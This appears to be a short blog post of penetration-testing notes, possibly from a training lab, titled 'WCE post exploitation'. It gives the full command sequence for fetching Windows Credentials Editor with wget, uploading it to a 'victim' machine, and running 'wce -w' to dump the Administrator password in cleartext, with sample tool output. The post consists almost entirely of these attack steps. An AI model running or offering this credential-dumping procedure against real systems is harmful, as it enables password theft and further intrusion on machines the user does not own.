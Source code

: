```yaml
---
published: true
layout: post
title: WCE post exploitation
---
```



Download wce

    cd /opt/
    wget http://www.ampliasecurity.com/research/wce_v1_41beta_universal.zip
    unzip wce_v1_41beta_universal.zip -d wce

Upload wce.exe to victim

**Victim**:  Execute wce.  Administrator password displayed in the clear

    C:\Documents and Settings\Administrator\My Documents>wce -w
    wce -w
    WCE v1.41beta (Windows Credentials Editor) - (c) 2010-2013 Amplia Security -     by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    Administrator\RALPH:_<password>_
    RALPH$\THINC.LOCAL:
